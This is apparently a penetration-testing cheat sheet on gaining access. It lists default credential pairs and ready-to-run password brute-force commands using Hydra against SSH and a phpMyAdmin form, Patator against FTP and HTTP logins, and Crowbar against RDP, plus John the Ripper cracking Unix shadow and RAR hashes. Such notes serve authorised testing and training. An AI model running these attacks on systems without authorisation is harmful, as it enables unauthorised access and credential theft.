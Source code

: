 # Gaining Access



#### Gaining Access

**Default Credentials**

```
# anonymous:anonymous
# guest:guest
# admin:admin
# admin:adminadmin
```

**Hydra**

```
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

**Patator**

```
patator ftp_login host=$TARGET user=$USER password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
```

```
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

**Crowbar**

```
sudo apt install crowbar # version 0.4.1
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > ./rockyou-UTF8.txt
crowbar -b rdp -s $TARGET/32 -u administrator -C rockyou-UTF8.txt -n 1
```

**John the Ripper**

```
unshadow passwd.txt shadow.txt > unshadow.txt
john unshadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password-protected RAR files.

```
rar2john backup.rar > hash.txt
john --format=rar hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
